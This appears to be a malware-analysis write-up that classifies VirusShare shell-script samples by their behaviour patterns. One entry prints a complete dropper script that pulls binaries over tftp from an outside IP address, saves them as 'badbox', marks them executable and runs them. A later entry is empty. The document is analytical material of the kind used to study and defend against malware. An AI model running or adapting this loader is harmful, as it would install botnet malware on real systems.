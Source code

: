 ## Notes
Classical DW-CH-EXE-RM pattern.


--------------------------------------------------------------------

# VirusShare_0e829416e4568738aa3df50ee4cab954.sh 

This is the "boring" pattern.

## Summary
1. modify system resource variable
2. copy executeable file `/bin/busybox`
3. FP-DW-CP-CH-EXE


## Notes
1. It is not clear whether this file has been truncated or not.
The last command is `ca` 
It can  be the program `ca`, or the truncated program `cat`. 
```shell
ulimit -n 1024
cp /bin/busybox /tmp/
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; tftp -r ntpd -g 107.178.98.206;cat ntpd >badbox;chmod +x *;./badbox
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; tftp -r sshd -g 107.178.98.206;cat sshd >badbox;chmod +x *;./badbox
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; tftp -r openssh -g 107.178.98.206;cat openssh >badbox;chmod +x *;./badbox
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; tftp -r bash -g 107.178.98.206;ca
```



--------------------------------------------------------------------

# VirusShare_18bfcc3a22b75d09b77ceacd66900d00.sh 

## Summary






























